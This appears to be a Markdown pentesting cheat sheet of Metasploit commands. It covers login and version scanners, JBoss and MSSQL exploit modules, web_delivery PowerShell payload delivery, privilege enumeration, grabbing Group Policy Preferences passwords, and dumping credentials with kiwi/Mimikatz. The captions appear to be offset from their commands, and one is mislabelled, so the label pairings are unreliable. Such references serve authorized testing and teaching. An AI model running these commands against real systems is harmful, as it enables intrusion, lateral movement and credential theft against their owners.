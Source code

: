 - Metasploit JBOSS vulnerability scanner

```bash
use auxiliary/scanner/mssql/mssql_login
```

- Metasploit MSSQL Credential Scanner

```bash
use auxiliary/scanner/mysql/mysql_version
```

- Metasploit MSSQL Version Scanner

```bash
use auxiliary/scanner/oracle/oracle_login
```

- Metasploit Oracle Login Module

```bash
use exploit/multi/script/web_delivery
```

- Metasploit powershell payload delivery module

```bash
post/windows/manage/powershell/exec_powershell
```

- Metasploit upload and run powershell script through a session

```bash
use exploit/multi/http/jboss_maindeployer
```

- Metasploit JBOSS deploy

```bash
use exploit/windows/mssql/mssql_payload
```

- Metasploit MSSQL payload

```bash
run post/windows/gather/win_privs
```

- Metasploit show privileges of current user

```bash
use post/windows/gather/credentials/gpp
```

- Metasploit grab GPP saved passwords

```bash
load kiwi
```

```bash
creds_all
```

- Metasploit load Mimikatz/kiwi and get creds

```bash
run post/windows/gather/local_admin_search_enum
```

- Idenitfy other machines that the supplied domain user has administrative access to

```bash
set AUTORUNSCRIPT post/windows/manage/migrate
```

Meterpreter Payloads
